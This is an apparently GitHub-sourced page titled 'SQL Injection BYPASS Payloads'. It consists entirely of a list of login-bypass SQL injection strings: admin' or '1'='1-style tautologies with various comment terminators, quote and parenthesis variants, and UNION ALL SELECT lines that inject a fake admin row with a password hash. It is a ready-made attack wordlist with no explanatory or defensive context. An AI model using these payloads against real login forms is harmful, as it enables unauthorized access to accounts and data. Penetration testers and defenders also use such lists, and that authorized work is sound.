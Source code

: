 <h1>SQL Injection BYPASS Payloads</h1>
or 1=1<br>
or 1=1--<br>
or 1=1#<br>
or 1=1/*<br>
admin' --<br>
admin' #<br>
admin'/*<br>
admin' or '1'='1<br>
admin' or '1'='1'--<br>
admin' or '1'='1'#<br>
admin' or '1'='1'/*<br>
admin'or 1=1 or ''='<br>
admin' or 1=1<br>
admin' or 1=1--<br>
admin' or 1=1#<br>
admin' or 1=1/*<br>
admin') or ('1'='1<br>
admin') or ('1'='1'--<br>
admin') or ('1'='1'#<br>
admin') or ('1'='1'/*<br>
admin') or '1'='1<br>
admin') or '1'='1'--<br>
admin') or '1'='1'#<br>
admin') or '1'='1'/*<br>
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055<br>
admin" --<br>
admin" #<br>
admin"/*<br>
admin" or "1"="1<br>
admin" or "1"="1"--<br>
admin" or "1"="1"#<br>
admin" or "1"="1"/*<br>
admin"or 1=1 or ""="<br>
admin" or 1=1<br>
admin" or 1=1--<br>
admin" or 1=1#<br>
admin" or 1=1/*<br>
admin") or ("1"="1<br>
admin") or ("1"="1"--<br>
admin") or ("1"="1"#<br>
admin") or ("1"="1"/*<br>
admin") or "1"="1<br>
admin") or "1"="1"--<br>
admin") or "1"="1"#<br>
admin") or "1"="1"/*<br>
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055<br>
